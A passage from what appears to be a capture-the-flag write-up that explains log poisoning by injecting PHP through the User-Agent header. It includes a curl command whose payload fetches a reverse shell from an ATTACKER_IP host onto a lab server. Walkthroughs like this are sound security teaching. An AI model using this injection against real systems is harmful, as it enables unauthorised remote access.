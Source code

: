![screenshot19](../assets/images/dogcat/screenshot19.png)

Next, we'll inject our PHP code into the **user-agent** header of our request. This is a more reliable method as compared to injecting it directly as a parameter input. If we inject directly as a parameter input, our code could end up being encoded by the server before being saved to the log file. This will cause it to not be treated as code later on by the server.

We will be uploading a [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) to the server. 

We will also use `curl` to make the request:

```
curl -A “<?php file_put_contents(‘shell.php’,file_get_contents(‘http://ATTACKER_IP/shell.php'))?>" http://10.10.65.102
```
